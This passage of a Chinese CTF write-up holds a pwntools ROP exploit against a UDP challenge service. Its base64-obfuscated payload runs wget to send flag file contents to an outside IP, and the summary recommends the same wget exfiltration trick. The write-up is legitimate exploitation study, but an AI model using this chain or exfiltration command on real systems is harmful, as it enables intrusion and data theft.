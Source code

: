 ````python

def debug(p):
    if local:
        gdb.attach(p)
    else:
        pass

head = '4a4401200001000000000001'.decode('hex')
head += (('3f'+'61'*0x3f)*0xe).decode('hex')
head += (('04'+'61'*0x4)+'38').decode('hex')
end = '0000010001000029100000000000000c000a0008e1c5a8e3047e4e5b'

# 0x080525db: mov eax, 0; pop ebp; ret; 
# 0x08059d44: pop eax; ret;
# 0x0804b639: add eax, edx; add esp, 0x10; pop ebx; pop ebp; ret;
# 0x08071802: push edx; push eax; call _popen
# 0x080a650c: "r"
# 0x0807ec72: pop edx; ret;
# 0x08094d60: add eax, 0x11038; nop; pop ebp; ret;
# 0xFFFEF386 + 0x11038 == 0x1000003BE == 0x3BE
# 0x0804c2bf: pop edi; pop ebp; ret; 
exp = ""
exp += p32(0x08059d44)+p32(0xFFFEF386) # pop eax; ret;
exp += p32(0x08094d60)+p32(0xdeadbeaf) # add eax, 0x11038; nop; pop ebp; ret;
exp += p32(0x0804b639)+p32(0xdeadbeaf)*6 # add eax, edx; add esp, 0x10; pop ebx; pop ebp; ret;
exp += p32(0x0807ec72)+p32(0x080a650c) # pop edx; ret; "r"
exp += p32(0x08071802)+p8(0x3e) # push edx; push eax; call _popen
print hex(len(exp))
cmd = 'echo "d2dldCA2NC4yNy42LjE5MDo5OTk5L2BjYXQgZipg"|base64 -d|sh|a'.encode()
print hex(len(cmd))
payload = head + exp + cmd + end.decode('hex')
p.send(payload)

# debug(p)
p.interactive()
````

## 0x06 总结

虽然这篇文章涉及rop的部分很少，但是是我最花时间的~~（调了一整天rop）~~

首先是面对真实网络环境，而且是没有一个固定文件描述符的UDP连接，反弹flag可以选择使用

````bash
$ wget http://xxx.xxx.xxx.xxx:9999/`cat flag`
````

这种方式去给自己vps发包。

虽然32位程序函数传参方式是栈传参，但是可以IDAPro里text查找去寻找调用我们需要的函数的地方，也许他会在前面放几个`push`操作，把栈传参当作寄存器传参处理。

寄存器传参的好处是我们可以拿不到一些动态的地址，但是观察程序崩溃点可以找找当时寄存器的环境，也许就有我们需要的地址。对于这些地址的处理可以灵活利用`mov`,`xchg`,`add`,`xor`等相互处理这些寄存器，例如如果没有`mov`和`xchg`的时候可以考虑先把一个寄存器清0，之后使用`add`来达到`mov`的效果。同理为了避免出现`\x00`字节，可以利用寄存器的整数溢出来构造自己需要的偏移，例如这题里的``0xFFFEF386 + 0x11038 == 0x1000003BE == 0x3BE``就是很好的例子。

同时需要考虑如果我们把参数放到栈的低地址，会出现由于我们新调用的函数存在一定的对栈的操作，我们的参数可能会被覆盖，尽可能把我们需要的参数放到栈的高地址。

关于BinDiff没啥多介绍的，毕竟这是我第一次用这个玩意（笑）。但是在编译原程序的时候要先测试出版本号和编译器版本号，已经检查题目的保护开启情况而修改我们自己编译的时候的Makefile。
